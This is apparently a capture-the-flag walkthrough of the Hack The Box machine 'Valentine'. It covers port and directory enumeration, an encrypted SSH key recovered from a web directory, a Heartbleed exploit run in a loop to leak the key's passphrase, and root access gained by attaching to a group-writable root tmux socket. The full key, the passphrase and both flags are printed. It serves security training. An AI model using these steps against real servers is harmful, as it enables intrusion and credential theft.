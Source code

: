 # Valentine
>Author : Xyan1d3
>Date : 5th July 2021
>IP : 10.10.10.79
>OS : Linux
>Difficulty : Easy
# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Mon Jul  5 01:24:24 2021 as: nmap -sC -sV -v -oN nmap/valentine 10.10.10.79
Nmap scan report for valentine.htb (10.10.10.79)
Host is up (0.071s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Issuer: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2018-02-06T00:45:25
| Not valid after:  2019-02-06T00:45:25
| MD5:   a413 c4f0 b145 2154 fb54 b2de c7a9 809d
|_SHA-1: 2303 80da 60e7 bde7 2ba6 76dd 5214 3c3c 6f53 01b1
|_ssl-date: 2021-07-04T19:54:49+00:00; +5s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 4s
```

## Gobuster
```python
┌─[Magisk@Xyan1d3]─[10.10.14.9]─[~/htb/valentine]
└──╼ # gobuster dir -u http://10.10.10.79 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.out
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.79
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/05 01:37:23 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 38]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.79/dev/]
/encode               (Status: 200) [Size: 554]
/decode               (Status: 200) [Size: 552]
/omg                  (Status: 200) [Size: 153356]
/server-status        (Status: 403) [Size: 292]
```

## Web Enumeration
We visit the site and find out that we have a graphic which remembers me of a `SSL heartbleed` vulnerability.
![[Pasted image 20210705013608.png]]

The `https` and `http` site point to the same page.
From, The gobuster we find out that we have a `/dev/` webdirectory which has a `hype_key` and a `notes.txt`.
![[Pasted image 20210705013922.png]]

We open the `hype_key` and find out that we have something that looks like to be hex.
![[Pasted image 20210705014019.png]]

We could copy the data and put it to `cyberchef` and find out that it is `hex` data which can be decoded to an encrypted OpenSSH private key.
![[Pasted image 20210705014137.png]]
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----
```

Unfortunately, We cannot crack the passphrase of this SSH private key with classic `ssh2john` and JtR.

The SSL `HeartBleed` attack leaks the memory of the webserver and this can cause the webserver to leak some important data to us.
We could search for any possible exploits for this vulnerability.
![[Pasted image 20210705015928.png]]
Here, I would be using a `python` exploit as it is easy to use and fix.

For, needing to pull of this exploit we need to generate traffic so that the webserver does something in the background. Here, We could use the `encode` and `decode` features listed by the `gobuster`.

We run the python exploit using `watch`
```python
watch -n 0.5 "python 32745.py 10.10.10.79  >> op"
```
This will run the exploit and leak the memory and append it to a file for us to look at afterwards. After filtering a lot of `00` lines ofcourse.

While, The `watch` command is running we have to generate traffic by doing arbitrary `encode` or `decode` features.

We do `cat op |grep -v '00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00'|less` to remove the `00` from the file.

If We are lucky enough we will be able to get a `base64` data which is useful.
![[Pasted image 20210705020608.png]]

We could base64 decode it and find out that it is a string.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.9]─[~/htb/valentine]
└──╼ # echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg=="|base64 -d
heartbleedbelievethehype
```

This could be the SSH passphrase.

# Initial FootHold as hype
We use the OpenSSH private key aquired from the `/dev` webdirectory with the passphrase `heartbleedbelievethehype` aquired from the hearbleed attack to SSH into the box as `hype`.
```
┌─[Magisk@Xyan1d3]─[10.10.14.9]─[~/htb/valentine]
└──╼ # ssh -i hype_key hype@10.10.10.79
Enter passphrase for key 'hype_key': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Sun Jul  4 13:38:45 2021 from 10.10.14.9
hype@Valentine:~$ id
uid=1000(hype),gid=1000(hype),groups=1000(hype),24(cdrom),30(dip),46(plugdev),124(sambashare)
```

## Getting the user Flag
```
hype@Valentine:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
hype@Valentine:~$ cd Desktop/
hype@Valentine:~/Desktop$ ls
user.txt
hype@Valentine:~/Desktop$ cat user.txt 
e6710a5464769fd5fcd216e076961750
```

# Root Escalation
For, Root Escalation we do a simple `ps aux` and list the process and find out that we have `tmux` running with  a socket on `/.devs/dev_sess`
![[Pasted image 20210705023030.png]]
```python
hype@Valentine:/.devs$ ls -la
total 8
drwxr-xr-x  2 root hype 4096 Jul  4 12:53 .
drwxr-xr-x 26 root root 4096 Feb  6  2018 ..
srw-rw----  1 root hype    0 Jul  4 12:53 dev_sess
```

Here, We see that the tmux socket is user owned by `root` but, group owned by `hype` which is us. Therefore, We can attach to the tmux session.
```python
hype@Valentine:~$ tmux -S /.devs/dev_sess attach
```

![[Pasted image 20210705023713.png]]

We see that the attached session is running as root. So, We could now get the root Flag.

## Getting the root Flag
```python
root@Valentine:/# cd /root/
root@Valentine:~# ls -l
total 8
-rwxr-xr-x 1 root root 388 Dec 13  2017 curl.sh
-rw-r--r-- 1 root root  33 Dec 13  2017 root.txt
root@Valentine:~# cat root.txt 
f1bb6d759df1f272914ebbc9ed7765b2
```